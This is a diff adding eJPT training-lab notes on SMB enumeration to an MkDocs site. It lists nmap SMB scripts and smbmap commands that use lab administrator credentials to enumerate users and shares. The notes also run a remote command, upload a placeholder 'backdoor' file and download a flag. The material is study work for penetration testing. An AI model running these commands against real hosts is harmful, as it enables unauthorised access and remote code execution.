

Before and after one commit to itjorgealves/mkdocs, an MkDocs documentation site: the page built from docs/eJPT/S1-Assessment-Methodologies/C3/Enumeration.md, in a window 1280 px wide and 1400 px high, scrolled down 270 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update documentation

````diff
--- a/docs/eJPT/S1-Assessment-Methodologies/C3/Enumeration.md
+++ b/docs/eJPT/S1-Assessment-Methodologies/C3/Enumeration.md
@@ -1,3 +1,116 @@
 ---
 title: "Enumeration"
 ---
+
+### SMB Lesson
+
+#### Discover SMB share and mount it
+```powershell
+# Learn to use Nmap to scan the target machine and mount the SMB share of the target machine using the Windows File Explorer as well as using the command prompt.
+
+# Checking the IP address.
+ipconfig
+
+# Run Nmap scan against the subnet to discover the target machine’s IP address.
+# Nmap --open option would show only exposed ports of the live hosts.
+nmap 10.2.16.0/20 --open
+
+# Clear the stored session.
+net use * /delete
+# Mount the target folder.
+net use Z: \\10.0.22.92\C$ smbserver_771 /user:administrator
+```
+
+```bash
+# Your task is to fingerprint the service using the tools available on the Kali machine and run Nmap scripts to enumerate the Windows target machine SMB service.
+
+# Checking the target IP address.
+cat /root/Desktop/target
+
+# Ping the target machine to see if it’s alive or not.
+# We can observe that the target machine is alive and we have successfully sent and received all five packets.
+ping -c 5 10.2.28.180
+
+# Run a Nmap scan against the target IP.
+nmap 10.2.28.180
+
+# We have discovered that multiple ports are open. SMB port 445 is also exposed. We will run the Nmap script to list the supported protocols and dialects of an SMB server.
+nmap -p445 --script smb-protocols 10.2.28.180
+
+# Running security mode script to return the information about the SMB security level.
+# We have tried to access the target SMB server using a guest user and we have received SMB security level information.
+nmap -p445 --script smb-security-mode 10.2.28.180
+
+# We have the SMB server credentials i.e administrator:smbserver_771. We will use it with Nmap script to scan the target to discover sensitive information.
+# Enumerating the users logged into a system through an SMB share with Nmap script.
+# First, we won’t use any credentials to see the output.
+nmap -p445 --script smb-enum-sessions 10.2.28.180
+# In case guest login is not enabled we can always use valid credentials of the target machine to discover the same information.
+nmap -p445 --script smb-enum-sessions --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.28.180
+
+# Enumerating all available shares.
+nmap -p445 --script smb-enum-shares 10.2.28.180
+
+# "The IPC$ share is also known as a null session connection. By using this session, Windows lets anonymous users perform certain activities, such as enumerating the names of domain accounts and network shares."
+
+# Scanning all shares using valid credentials to check the permissions.
+nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.28.180
+
+# Enumerate the windows users on a target machine.
+nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.28.180
+
+# Get information about the server statistics. It uses port 445 and port 139 to fetch the details.
+nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.28.180
+
+# Enumerating available domains on a target machine.
+nmap -p445 --script smb-enum-domains --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.28.180
+
+# Enumerating available user groups on a target machine.
+nmap -p445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.28.180
+
+# Enumerating services on a target machine.
+nmap -p445 --script smb-enum-services --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.28.180
+
+# Enumerating all the shared folders and drives then running the ls command (The ls command is used to list files or directories, similarly dir in windows) on all the shared folders.
+nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.28.180
+```
+
+```bash
+# Your task is to fingerprint the service using the tools available on the Kali machine and run the smbmap tool to enumerate the target machine service.
+
+# Checking the target IP address.
+cat /root/Desktop/target
+
+# Run a Nmap scan against the target IP.
+nmap 10.2.24.213
+
+# We have discovered that multiple ports are open. SMB port 445 is also exposed. We will run Nmap script to list the supported protocols and dialects of an SMB server.
+nmap -p445 --script smb-protocols 10.2.24.213
+
+# We will use the smbmap python script to enumerate the target machine.
+# Running smbmap tool to discover all shared folders and drives.
+smbmap -u guest -p "" -d . -H 10.2.24.213
+
+# Running smbmap with administrator user credentials.
+smbmap -u administrator -p smbserver_771 -d . -H 10.2.24.213
+
+# Execute the command on the target machine through SMB.
+smbmap -H 10.2.24.213 -u administrator -p smbserver_771 -x 'ipconfig'
+
+# Listing all drives on the specified host.
+smbmap -H 10.2.24.213 -u administrator -p smbserver_771 -L
+
+# List contents of the directory of C:\ drive.
+smbmap -H 10.2.24.213 -u administrator -p smbserver_771 -r 'C$'
+
+# We can also upload a file using the smbmap tool if we have the write permission on the shared folder.
+# Uploading a sample file.
+touch backdoor
+smbmap -H 10.2.24.213 -u administrator -p smbserver_771 --upload '/root/backdoor' 'C$\backdoor'
+# Verify that the files have been uploaded on the target machine.
+smbmap -H 10.2.24.213 -u administrator -p smbserver_771 -r 'C$'
+
+# Download the flag.txt file.
+smbmap -H 10.2.24.213 -u administrator -p smbserver_771 --download 'C$\flag.txt'
+cat /root/10.2.24.213-C_flag.txt
+```
````
